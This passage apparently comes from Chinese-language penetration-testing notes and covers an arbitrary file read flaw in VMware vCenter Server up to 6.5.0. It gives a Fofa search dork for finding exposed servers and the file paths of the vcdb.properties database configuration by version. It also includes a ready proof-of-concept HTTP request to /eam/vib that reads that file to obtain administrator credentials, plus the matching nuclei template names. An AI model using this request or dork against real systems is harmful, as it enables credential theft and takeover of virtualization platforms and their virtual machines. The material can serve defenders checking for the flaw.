 ![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202205061717231.png-water_print](assets/1708572547-44c93f691f10c6852af10f00b98f0bd4.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202205061717231.png-water_print")

### [](#22-%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96)2.2 任意文件读取

影响版本：`Vmware vCenter Server <= 6.5.0`

Fofa Dork:`title="ID_VC_Welcome"`

VMware vCenter 存在任意文件读取漏洞，可读取 vCenter 配置文件获得管理帐号密码进而控制 vCenter 平台及其管理的虚拟机集群。

由于 EAM 用户运行该存在漏洞的服务（非域用户），因此不存在 NTLM Relay 等中继攻击风险。

由于不同的系统版本，数据库配置文件（`vcdb.properties`）存放位置不同，根据[官方文档](https://kb.vmware.com/s/article/7960893?lang=zh_cn)，大体可以分为：

-   对于 vCenter Server 5.5 及更低版本：
    -   Windows 2008 - `C:\ProgramData\VMware\VMware VirtualCenter`
    -   其他 Windows 版本 - `C:\Documents and Settings\All Users\Application Data\VMware\VMware VirtualCenter\`
-   对于 vCenter Server 6.0、6.5、6.7：
    -   `C:\ProgramData\VMware\vCenterServer\cfg\vmware-vpx`

POC：

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>``` | ```http<br>GET /eam/vib?id={{path}}\vcdb.properties HTTP/1.1<br>Host: {{Hostname}}<br>``` |

nuclei 中对应的 poc：

-   `/nuclei-templates/vulnerabilities/vmware/vmware-vcenter-lfi.yaml`
-   `/nuclei-templates/vulnerabilities/vmware/vmware-vcenter-lfi-linux.yaml`
